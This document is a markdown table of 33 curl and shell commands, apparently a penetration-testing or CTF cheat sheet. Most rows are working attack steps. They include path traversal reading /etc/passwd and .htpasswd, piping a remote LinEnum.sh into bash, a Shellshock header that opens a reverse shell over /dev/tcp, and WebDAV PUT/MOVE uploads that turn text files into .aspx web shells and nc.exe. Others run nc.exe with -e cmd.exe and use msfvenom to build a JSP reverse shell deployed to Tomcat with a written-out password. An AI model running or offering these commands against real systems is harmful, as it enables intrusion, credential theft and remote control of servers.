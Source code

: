 # Curl Commands

| No. | Command |
|-----|---------|
| 1   | `curl -X POST "$url"` |
| 2   | `curl -X POST "$url" --data "$username=admin&password=admin"` |
| 3   | `curl -X POST "$url" --data "$username=admin&password=admin" -u a` |
| 4   | `curl -X PUT "$url" --data "$username=admin&password=admin"` |
| 5   | `curl -X POST -k "https://$ip:$port/file_view.php" -d "file=../../../../../etc/passwd"` |
| 6   | `curl -X POST -k "https://$ip:$port/file_view.php" -d "file=../../../../../etc/nginx/sites-available/default"` |
| 7   | `curl -X POST -k "https://$ip:$port/file_view.php" -d "file=../../../../../var/www/p4ss/.htapasswd"` |
| 8   | `curl "//$ip:$port/url.php?path=localhost:888/?doc=backup"` |
| 9   | `curl -s $url \| grep -oE "picoCTF{.*}" --color=none` |
| 10  | `curl $ip:8000/LinEnum.sh \| bash` |
| 11  | `curl "$ip/LinEnum.sh" -o LinEnum.sh` |
| 12  | `curl -k "$url" -o "$filename.png"` |
| 13  | `nc -lvp 8008` |
| 14  | `curl -k -H "user-agent: () { :; }; bash -i >& /dev/tcp/$ip/$port 0>&1" "//$targetIP:$port/session_login.cgi"` |
| 15  | `curl -vvv --upload-file cmd.php "$ip/webdav_test_inception/cmd.php" --user "$username:$password"` |
| 16  | `curl "http://$ip/" --upload-file shell.txt` |
| 17  | `curl -X MOVE --header "Destination:http://$ip/shell.aspx" "http://$ip/shell.txt"` |
| 18  | `curl "$ip" --upload-file nc.txt` |
| 19  | `curl -X MOVE --header "Destination:http://$ip/nc.exe" "http://$ip/nc.txt"` |
| 20  | `cmd.exe /c "c:\\Inetpub\\wwwroot\\nc.exe $ip 1337 -e cmd.exe"` |
| 21  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=53 -f war > ata.war` |
| 22  | `curl -u "tomcat:\$3cureP4s5w0rd123!" --upload-file ata.war "http://$ip:8080/manager/text/deploy?path=/ata"` |
| 23  | `curl -u "tomcat:\$3cureP4s5w0rd123!" "http://$ip:8080/manager/text/list"` |
| 24  | `curl "$ip/centron/api/index.php?action=authenticate" -d 'username=admin&password=password'` |
| 25  | `for i in $(seq 1 20); do echo -n "$i: "; curl -s "http://$ip/index.php/jobs/apply/$i/" \| grep '<title>' ; done` |
| 26  | `for i in $(seq 1 20); do python -c "print('Hello World')"; done` |
| 27  | `curl -X PUT "http://$ip/test.html" -d @test.html` |
| 28  | `curl "http://$ip/test.html"` |
| 29  | `curl -X MOVE --header 'Destination:http://$ip/test.aspx' 'http://$ip/test.html'` |
| 30  | `curl "http://$ip/test.aspx"` |
| 31  | `mv shell.aspx shell.txt` |
| 32  | `curl -X PUT "http://$ip/shell.txt" --data-binary @shell.txt` |
| 33  | `curl -X MOVE --header 'Destination:http://$ip/shell.aspx' 'http://$ip/shell.txt'` |
